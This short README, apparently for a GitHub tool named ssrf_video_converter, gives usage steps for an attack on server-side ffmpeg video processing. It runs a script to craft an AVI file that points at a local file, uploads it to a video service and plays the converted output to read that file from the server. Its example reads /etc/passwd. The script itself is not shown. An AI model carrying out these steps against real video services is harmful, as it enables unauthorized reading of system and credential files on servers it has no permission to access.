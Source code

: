 # ssrf_video_converter
./fil.py file://<filename> file_read.avi
Upload file_read.avi to some website that processes videofiles
(on server side, done by the videoservice) ffmpeg -i file_read.avi output.mp4
Click "Play" in the videoservice.
If you are lucky, you'll the content of <filename> from the server.
./fil.py file://etc/passwd file_read.avi

